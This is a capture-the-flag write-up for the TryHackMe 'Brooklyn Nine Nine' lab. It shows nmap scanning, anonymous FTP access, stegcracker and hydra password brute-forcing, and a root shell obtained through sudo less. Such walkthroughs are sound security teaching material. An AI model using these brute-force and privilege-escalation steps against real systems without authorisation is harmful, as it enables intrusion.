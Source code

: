 <a href="https://tryhackme.com/room/brooklynninenine"><h1><center>Brooklyn Nine Nine</center></h1></a>
<p>There are two methods of getting into the machine and i will cover both in this write-up.</p>
<p>Without further ado let's start enumerating the machine! First we will use nmap scan. </p>
<pre><code>
$ nmap -sC -sV -oN nmap/init 10.10.48.118
Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-17 17:05 EST
Nmap scan report for 10.10.48.118
Host is up (0.044s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.20.116
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.01 seconds
</code></pre>

<p>There are 3 ports open:</p>
<ul> 
  <li> 21 (FTP)</li>
  <li> 22 (SSH)</li>
  <li> 80 (HTTP)</li>
</ul>
<p>We can also see that FTP allows Anonymous login and has <code>note_to_jake.txt</code>! Let's login, download and check the file.</p>
<pre><code>
$ ftp 10.10.48.118
Connected to 10.10.48.118.
220 (vsFTPd 3.0.3)
Name (10.10.48.118:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.5575 kB/s)
ftp> exit
221 Goodbye.
</code></pre>
<pre><code>
$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
</code></pre>
<p>Nice! We can now note down 3 potencial usernames - Amy, Jake, Holt. But before we try to crack Jakes weak password lets check a web server on port 80.</p>
<p>Let's see if there is anything usefull in the source code...YEP... we found a clue!</p> 
<pre><code>
&lt;p&gt;This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.&lt;/p&gt;
&lt;!-- Have you ever heard of steganography? --&gt;
</code></pre>
<p>Download the picture and let's see what it hides. </p>
<code> $ wget http://10.10.48.118/brooklyn99.jpg </code>

<p>Unfortunately we cant extract it with steghide because we dont have a password. Let's use a tool called <a href="https://github.com/Paradoxis/StegCracker">stegcracker</a> </p>
<pre><code>
# stegcracker brooklyn99.jpg /opt/wordlists/rockyou.txt 
StegCracker 2.0.9 - (https://github.com/Paradoxis/StegCracker)
Copyright (c) 2020 - Luke Paris (Paradoxis)

Counting lines in wordlist..
Attacking file 'brooklyn99.jpg' with wordlist '/opt/wordlists/rockyou.txt'..
Successfully cracked file with password: <b><---REDACTED---></b>
Tried 20522 passwords
Your file has been written to: brooklyn99.jpg.out
</pre></code>
<pre><code>
$ cat brooklyn99.jpg.out 
Holts Password:
<b><---REDACTED---></b>

Enjoy!!
</pre></code>
<p>Nice we got Holt's password and now all we got to do is ssh in!</p>
<h2>NOTE</h2>
<p>There is another way of getting into the machine. We know that Jake has weak password and we can use hydra to crack it</p>
<pre><code>
$ hydra -l jake -P /opt/wordlists/rockyou.txt 10.10.48.118 ssh
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344401 login tries (l:1/p:14344401), ~896526 tries per task
[DATA] attacking ssh://10.10.48.118:22/
[22][ssh] host: 10.10.48.118   login: jake   password: <b><---REDACTED---></b>
</code></pre>
<p>Now that we have covered how to get both credentials lets ssh in!</p>
<code>$ ssh jake@10.10.48.118 </code>
<p>We need to find <code>user.txt</code> and <code>root.txt</code>. </p>
<pre><code>
$ find / -type f -iname user.txt 2>/dev/null
/home/holt/user.txt
</code></pre>
<p> At this point we could just ssh in as Holt and get the flag but we need to escalate our privaleges to get the root flag anyways so lets get on with the fun part... Getting root access! </p>
<pre><code>
$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
</code></pre>
<p> So Jake can use <code>less</code> with sudo without password! We could just use <code>less</code> and get the contents of user and root flags but thats not fun! <p>
<p> Time to check <a href="https://gtfobins.github.io/">GTFOBins</a> and see if we can get root privaleges.</p> 
<p> Ahha there it is! First use:</p>
<code>
sudo less /etc/profile
</code>
<p> and then just type:</p>
<code> !/bin/sh </code>
<p> And thats it! But let's make sure we are root first.</p>
<pre><code>
# whoami
root
</code></pre>
<p> There we go we are root! That wasnt so hard was it?</p>
<pre><code>
# cat /home/holt/user.txt
<b><---REDACTED---></b>
</code></pre>
<p> And now the root flag.</p>
<pre><code>
# cat /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: <b><---REDACTED---></b>

Enjoy!!
</code></pre>

<p>And we are done! CONGRATS!</p>
<p>Don't forget to drink some water and happy hacking!</p>


